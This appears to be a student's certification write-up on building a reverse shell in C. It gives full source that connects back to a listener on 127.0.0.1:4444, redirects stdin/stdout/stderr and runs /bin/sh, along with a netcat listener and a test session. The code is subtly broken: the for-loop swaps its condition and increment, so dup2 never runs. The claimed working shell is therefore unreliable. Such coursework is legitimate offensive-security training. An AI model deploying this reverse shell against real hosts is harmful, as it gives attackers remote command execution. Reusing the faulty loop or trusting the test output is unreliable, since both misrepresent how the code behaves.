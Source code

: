 # Note

This MD file has been created for the SecurityTube Linux Assembly Expert certification (https://www.pentesteracademy.com/course?id=3). Student ID: 14183.

This is part 1/4 of the exercice 2.

# Exo 2 - Reverse shellcode - Part 1 - C Reverse Shell

### C Reverse Shell - Creation

Reverse shell creation is simpler in a C point of view. First a socket is created, then a connection to the target is done and at last STDIN/STDOUT/STDERR are redirect and execve is run.

The reverse shell starts and ends as the bind shell

```C
int main()
{
	int my_socket = socket(AF_INET, SOCK_STREAM, 0);

	// NEW THINGS HERE 

	int i;
	for(i = 0; i++; i <3)
		dup2(client, i);

	execve("/bin/sh", NULL, NULL);
	return 0;
}
```

*Socket *usage is easy to understant using the manual

```C
NAME
       connect - initiate a connection on a socket

SYNOPSIS
       #include <sys/types.h>
       #include <sys/socket.h>

       int connect(int sockfd, const struct sockaddr *addr,
                   socklen_t addrlen);
```

Again a *sockaddr* structure must be created, the only change here is we are using our target IP address. In order to have an C formated IP address, *inet_addr *function is used.

From the manual:
```C
The inet_addr() function converts the Internet host address cp from IPv4 numbers-and-dots notation into binary data in network byte order.
```

### C Reverse Shell - Final code
```C
#include <sys/socket.h>
#include <unistd.h>
#include <netinet/in.h>

int main()
{
	int my_socket = socket(AF_INET, SOCK_STREAM, 0);
	struct sockaddr_in my_sockaddr;
	my_sockaddr.sin_family = AF_INET;
    	my_sockaddr.sin_addr.s_addr = inet_addr("127.0.0.1");
    	my_sockaddr.sin_port = htons(4444);

    	connect(my_socket, (struct sockaddr *)&my_sockaddr, sizeof(my_sockaddr));

	int i;
	for(i = 0; i++; i <3)
		dup2(my_socket, i);

	execve("/bin/sh", NULL, NULL);
	return 0;
}

```
### Testing the reverse shell

First, the C file is compiled.
```
cervoise@slae:~/exam/reverse$ gcc reverse_shell.c -o reverse_shell
```
Then netcat is used to listen on port 444
```
cervoise@slae:~/exam/reverse$ nc -lv 4444
```

And by running the ELF binary, a (local) reverse shell is gain
```
cervoise@slae:~/exam/reverse$ ./reverse_shell 
$ id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ exit
```

# Exo 2 - Reverse shellcode - Part 2 - Reverse Shellcode

# Exo 2 - Reverse shellcode - Part 3 - Optimized Reverse Shellcode

# Exo 2 - Reverse shellcode - Part 4 - Reverse Shellcode Generator
